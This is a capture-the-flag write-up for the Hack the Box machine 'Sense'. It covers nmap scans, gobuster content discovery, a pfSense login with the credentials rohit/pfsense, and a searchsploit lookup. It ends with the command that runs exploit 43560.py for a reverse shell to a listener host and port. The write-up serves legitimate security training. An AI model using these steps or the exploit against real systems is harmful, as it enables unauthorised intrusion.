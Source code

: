 # Hack the Box - Sense

```CSS
Machine IP: 10.10.10.60
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.60 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.60
Host is up (0.18s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 129.73 seconds
```

```CSS
▶ nmap -sC -sV -p 80,443 10.10.10.60 -oN deep.nmap

Nmap scan report for 10.10.10.60
Host is up (0.18s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.14 seconds
```

---

## HTTP/ HTTPS
![image](https://user-images.githubusercontent.com/83878909/234785069-bf67c3ce-c4ee-4b1b-aec8-85854c54acc7.png)

---

## Content Discovery
  - Directory and File Brute-force
```CSS
▶ gobuster dir -u https://10.10.10.60 -w /seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --no-tls-validation -x txt -t 50
```
![image](https://user-images.githubusercontent.com/83878909/234785696-2768758a-7b87-4b57-8a49-8793f79058fc.png)

  - `https://10.10.10.60/changelog.txt`
![image](https://user-images.githubusercontent.com/83878909/234785981-a79b17a3-ffc3-4539-9daf-e04081cb0de8.png)

  - `https://10.10.10.60/system-users.txt`
![image](https://user-images.githubusercontent.com/83878909/234786961-5d7409e2-ae45-4b16-af9a-02cb3aeda529.png)

---

## PFSense
  - Login
![image](https://user-images.githubusercontent.com/83878909/234787699-4a1e1e3d-b3bc-47e2-b9c1-a0c50f013da5.png)
  
  - Dashboard
![image](https://user-images.githubusercontent.com/83878909/234787909-2f6a4e32-e1b6-42a6-b693-b50abde265dc.png)

### Searchsploit
```CSS
▶ searchsploit pfsense 2.1.3
```
![image](https://user-images.githubusercontent.com/83878909/234788791-20fa0822-ab0f-436c-9c6c-0da7410f5969.png)
![image](https://user-images.githubusercontent.com/83878909/234789403-f7e2d729-499e-4a74-bec7-70138323b219.png)

---

## Exploit

```CSS
▶ python 43560.py --rhost 10.10.10.60 --lhost 10.10.14.25 --lport 8080 --username rohit --password pfsense
```
![image](https://user-images.githubusercontent.com/83878909/234790629-5b68be45-a846-43b6-82bd-7cdd8a5a9114.png)

---
